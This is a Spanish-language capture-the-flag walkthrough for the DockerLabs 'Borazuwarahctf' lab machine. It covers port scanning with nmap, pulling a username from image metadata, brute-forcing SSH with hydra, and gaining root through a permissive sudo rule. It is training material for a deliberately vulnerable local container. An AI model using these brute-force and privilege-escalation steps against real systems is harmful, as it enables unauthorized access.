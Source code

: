 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Borazuwarahctf DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip borazuwarahctf.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh borazuwarahctf.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 12:27 EST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

Si entramos en la pagina vemos simplemente una imagen de un `huevo kinder`, pero si realizamos `fuzzing` no encontraremos nada, si intentamos fuerza bruta con `hydra` tampoco veremos nada, por lo que vamos a ver si contiene `metadatos` importantes dicha imagen, por lo que vamos a descargarnos la imagen y utilizar una herramienta para sacar los `metadatos` de la imagen.

## exiftool

```shell
wget http://<IP>/imagen.jpeg
```

```shell
exiftool imagen.jpeg
```

Info:

```
ExifTool Version Number         : 13.00
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 12:10:18-04:00
File Access Date/Time           : 2025:02:06 12:31:55-05:00
File Inode Change Date/Time     : 2025:02:06 12:31:55-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Por lo que vemos tenemos un usuario, por lo que probaremos a realizar fuerza bruta con dicho usuario.

## Escalate user borazuwarah

### Hydra

```shell
hydra -l borazuwarah -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-06 12:34:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-06 12:34:06
```

Por lo que vemos obtendremos las credenciales del usuario `borazuwarah` por lo que nos conectaremos por `ssh` de la siguiente forma:

### SSH

```shell
ssh borazuwarah@<IP>
```

Metemos como contraseña `123456` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for borazuwarah on 7b08259878b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7b08259878b6:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Veremos que podremos ejecutar el binario `bash` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo bash
```

Info:

```
root@fd6a0da128a8:/home/borazuwarah# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
